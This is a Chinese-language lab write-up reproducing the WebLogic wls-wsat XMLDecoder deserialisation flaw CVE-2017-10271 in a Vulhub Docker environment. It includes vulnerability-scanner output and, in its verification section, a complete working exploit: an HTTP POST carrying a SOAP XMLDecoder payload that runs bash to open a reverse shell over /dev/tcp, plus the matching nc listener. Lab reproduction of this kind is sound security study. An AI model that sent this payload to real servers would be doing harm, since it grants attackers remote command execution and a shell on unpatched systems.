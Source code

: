 # Weblogic-10.3.6 'wls-wsat' XMLDecoder-unserializer-(CVE-2017-10271)

| 说明     | 内容                                                         |
| -------- | ------------------------------------------------------------ |
| 漏洞编号 | CVE-2017-10271                                               |
| 漏洞名称 | Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞（CVE-2017-10271） |
| 漏洞评级 | 高危                                                         |
| 影响范围 | 10.3.6                                                       |
| 漏洞描述 | Weblogic的WLS Security组件对外提供webservice服务<br>其中使用了XMLDecoder来解析用户传入的XML数据<br>在解析的过程中出现反序列化漏洞，导致可执行任意命令 |
| 修复方案 | 打补丁<br >上设备<br>升级组件                                |



### 1.1、漏洞描述

WebLogic是美国Oracle公司出品的一个application server，确切的说是一个基于JAVAEE架构的中间件，WebLogic是用于开发、集成、部署和管理大型分布式Web应用、网络应用和数据库应用的Java应用服务器。将Java的动态功能和Java Enterprise标准的安全性引入大型网络应用的开发、集成、部署和管理之中。

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令

### 1.2、漏洞等级

高危

### 1.3、影响版本

  10.3.6

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/weblogic/CVE-2017-10271

启动测试环境：

```bash
sudo docker-compose up -d
```

等待一段时间，访问`http://your-ip:7001/`即可看到一个404页面，说明weblogic已成功启动。

`Weblogic`的登陆地址是`your-ip:7001/console`

![image-20230905174304489](./imgs/image-20230905174304489.png)

#### 2、漏洞扫描

#### nacs

查看帮助信息

```bash
./nacs -h 
```

![image-20230905175526994](./imgs/image-20230905175526994.png)

```bash
┌──(kali㉿kali)-[~/tools/nacs/0.0.3]
└─$ sudo ./nacs -h 192.168.80.141 -pa 7001
 _  _     ___     ___     ___   
| \| |   /   \   / __|   / __|  
| .  |   | - |  | (__    \__ \
|_|\_|   |_|_|   \___|   |___/  
             Version: 0.0.3
[05:55:53] [INFO] Start to probe alive machines
[05:55:53] [*] Target 192.168.80.141 is alive
[05:55:53] [INFO] There are total of 1 hosts, and 1 are surviving
[05:55:53] [WARNING] Too few surviving hosts
[05:55:53] [INFO] Start to discover the ports
[05:55:53] [*] [TCP/SSH] ssh://192.168.80.141:22 [SSH-2.0-OpenSSH_9.2p1\x20Debian-2]
[05:55:59] [*] [TCP/HTTP] [404] [JSP] [Servlet] [Weblogic] http://192.168.80.141:7001 [None]
[05:55:59] [INFO] A total of 2 targets, the rule base hits 2 targets
[05:55:59] [INFO] Start to send pocs to web services (xray type)
[05:55:59] [INFO] Load 397 xray poc(s) 
[05:56:01] [+] http://192.168.80.141:7001 poc-yaml-weblogic-cve-2019-2729-2 
[05:56:02] [+] http://192.168.80.141:7001 poc-yaml-weblogic-cve-2019-2725 v10
[05:56:12] [+] http://192.168.80.141:7001 poc-yaml-weblogic-cve-2017-10271 reverse
[05:57:01] [INFO] Start to process nonweb services
[05:57:01] [INFO] [protocol] ssh 192.168.80.141
[05:59:29] [INFO] Task finish, consumption of time: 3m35.385936144s                                                                      
```



#### weblogicScanner

项目地址：https://github.com/0xn0ne/weblogicScanner

```bash
┌──(kali㉿kali)-[~/tools/weblogic/weblogicScanner]
└─$ python ws.py -t 192.168.80.141                                     
[06:02:31][INFO] [-][CVE-2018-2894][192.168.80.141:7001] Not found.
[06:02:33][INFO] [+][CVE-2017-10271][192.168.80.141:7001] Exists vulnerability!
[06:02:33][INFO] [+][CVE-2014-4210][192.168.80.141:7001] Found module, Please verify manually!
[06:02:38][INFO] [-][CVE-2019-2890][192.168.80.141:7001] Not vulnerability.
[06:02:39][INFO] [-][CVE-2016-0638][192.168.80.141:7001] Not vulnerability.
[06:02:39][INFO] [!][CVE-2018-3245][192.168.80.141:7001] Connection error.
[06:02:39][INFO] [-][CVE-2018-3245][192.168.80.141:7001] Not vulnerability.
[06:02:40][INFO] [-][CVE-2018-3191][192.168.80.141:7001] Not vulnerability.
[06:02:40][INFO] [-][CVE-2020-2883][192.168.80.141:7001] Not vulnerability.
[06:02:40][INFO] [-][CVE-2020-2555][192.168.80.141:7001] Not vulnerability.
[06:02:42][INFO] [+][CVE-2020-2551][192.168.80.141:7001] Found module, Please verify manually!
[06:02:42][INFO] [+][CVE-2019-2618][192.168.80.141:7001] Found module, Please verify manually!
[06:02:43][INFO] [+][CVE-2019-2725][192.168.80.141:7001] Exists vulnerability!
[06:02:43][INFO] [+][CVE-2018-3252][192.168.80.141:7001] Found module, Please verify manually!
[06:02:43][INFO] [+][CVE-2020-14750][192.168.80.141:7001] Exists vulnerability!
[06:02:43][INFO] [+][CVE-2019-2888][192.168.80.141:7001] Found module, Please verify manually!
[06:02:44][INFO] [!][CVE-2020-14882][192.168.80.141:7001] Connection error.
[06:02:44][INFO] [-][CVE-2020-14882][192.168.80.141:7001] Not vulnerability.
[06:02:44][INFO] [+][CVE-2019-2729][192.168.80.141:7001] Exists vulnerability!
[06:02:45][INFO] [+][CVE-2018-2893][192.168.80.141:7001] Exists vulnerability!
[06:02:45][INFO] [+][CVE-2017-3506][192.168.80.141:7001] Exists vulnerability!
[06:02:46][INFO] [+][CVE-2016-3510][192.168.80.141:7001] Exists vulnerability!
[06:02:47][INFO] [+][CVE-2017-3248][192.168.80.141:7001] Exists vulnerability!
[06:02:48][INFO] [-][CVE-2018-2628][192.168.80.141:7001] Not vulnerability.
[06:02:52][INFO] [-][Weblogic Console][192.168.80.141:7001] Not found.
[06:02:52][INFO] [-][CVE-2020-14883][192.168.80.141:7001] Not vulnerability.
Run completed, 27 seconds total.

```

#### 3、漏洞验证

访问`/wls-wsat/CoordinatorPortType`页面

![image-20230905190041513](./imgs/image-20230905190041513.png)

改变请求方式为`post`

![image-20230905190129553](./imgs/image-20230905190129553.png)

kali监听`21`端口

```bash
nc -lvp 21
```





发送如下数据包（注意其中反弹shell的语句，需要进行编码，否则解析XML的时候将出现格式错误）：

```xml
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.80.141:7001
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ADMINCONSOLESESSION=vq4hk23V21rs9yG5nGTvYkGppFGmFrvzzM2tvtw2pSnKQCsjPmvt!-1799840789
Connection: close
Content-Type: text/xml
Content-Length: 641

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.80.141/21 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>

```

成功获取shell

![image-20230905190545349](./imgs/image-20230905190545349.png)

